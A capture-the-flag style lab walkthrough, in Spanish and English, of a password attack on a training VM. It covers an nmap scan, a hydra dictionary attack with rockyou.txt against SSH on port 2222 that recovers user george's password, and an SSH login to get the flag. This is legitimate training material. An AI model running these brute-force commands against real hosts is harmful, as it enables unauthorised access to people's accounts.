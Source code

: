 # Walk: Password Attacks - SSH and RDP - VM #1

## Fecha: 19/02/2025
## Host: Ubuntu
## IP: 192.168.202.201
## Objetivo
Follow the steps outlined in this section to leverage a dictionary attack to get access to SSH (port 2222) on VM #1 (BRUTE). Find the flag in the _george_ user's home directory.
## Herramientas
1. nmap
2. hydra
## Procedimiento y comandos
#### Paso 1: Escanemos el host para enumerar servicios ssh:
- `nmap -sV --open -oN vm-1.nmap-result.txt 192.168.202.201`
```
...
Nmap scan report for 192.168.202.201
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
```
#### Paso 2: Ejecutamos el ataque de fueza bruta con hydra:
- `hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.202.201`
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-19 19:03:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.202.201:2222/
[2222][ssh] host: 192.168.202.201   login: george   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-19 19:03:47
```
> Colocamos un usuario valido con el flag **_-l_**, como en este caso **_"george"_**
- [2222][ssh] host: 192.168.202.201   login: george   password: **chocolate**
#### Paso 3: Nos conectamos por ssh con el usuario george en el puerto 2222:
- `ssh -p 2222 george@192.168.202.201`
- Obtenemos el flag.
